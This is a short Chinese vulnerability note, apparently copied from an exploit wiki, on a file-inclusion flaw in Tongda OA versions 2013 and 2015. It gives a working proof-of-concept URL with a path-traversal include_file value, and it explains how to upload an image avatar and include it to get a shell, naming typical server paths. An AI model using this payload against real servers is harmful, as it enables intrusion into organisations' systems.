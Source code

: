 # 通达 oa 文件包含漏洞

> 原文：[http://book.iwonder.run/0day/通达 oa/6.html](http://book.iwonder.run/0day/通达 oa/6.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个 jpg 头像，然后利用该⻚面的⽂件包含 getshell。通达 OA 网站的根⽬录 一般在 D:\MYOA\webroot 中,头像附件一般在 D:\MYOA\webroot\attachment\avatar\XXX.jpg

![image](img/388550b9999fa09499352eb344e9aae7.png)

